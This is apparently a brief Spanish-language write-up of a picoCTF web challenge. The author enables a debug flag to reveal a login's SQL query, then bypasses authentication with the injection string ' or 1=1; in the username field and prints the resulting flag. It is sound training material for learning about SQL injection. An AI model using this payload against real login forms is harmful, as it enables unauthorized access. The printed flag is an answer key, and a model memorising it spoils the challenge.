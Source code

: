 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!
## Solución
```
Colocamos debug en 1 y ahora al intentar logearnos sale:
username: 
password: 
SQL query: SELECT * FROM users WHERE name='' AND password=''
Descubrimos que se puede realizar una injeccion SQL asi que hacemos lo siguiente:
username: ' or 1=1;
password: 
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password=''

# Logged in!

Your flag is: picoCTF{s0m3_SQL_c218b685}
```
## Notas adicionales
Cuando el php no tiene seguridad podemos inyectar codigo sql atraves del login o de la consola
## Referencias
